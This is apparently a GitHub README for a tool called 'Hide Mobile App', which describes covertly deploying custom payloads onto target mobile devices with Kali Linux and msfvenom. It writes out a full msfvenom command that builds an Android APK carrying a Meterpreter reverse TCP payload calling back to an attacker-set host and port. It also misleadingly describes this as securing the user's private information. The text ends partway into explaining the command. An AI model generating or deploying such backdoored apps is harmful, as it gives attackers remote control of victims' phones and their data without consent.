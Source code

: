 # Hide-Mobile-App
"Hide Mobile App" maximizes Kali Linux and msfvenom capabilities to deploy custom payloads covertly onto target mobile devices. Seamlessly integrated into the Kali environment, it ensures the utmost privacy by encrypting sensitive data. Effortlessly secure your information with "Hide Mobile App" on Kali Linux.

## Table of Content

1. [Generate Apk File](#generate-apk-file)

## Generate Apk File
`msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=9999 R > ./mobileApp.apk`
This command utilizes `msfvenom`, a Metasploit payload generator, to create a custom Android application (`.apk` file) embedded with a Meterpreter reverse TCP payload. <br>
Breaking down the command:



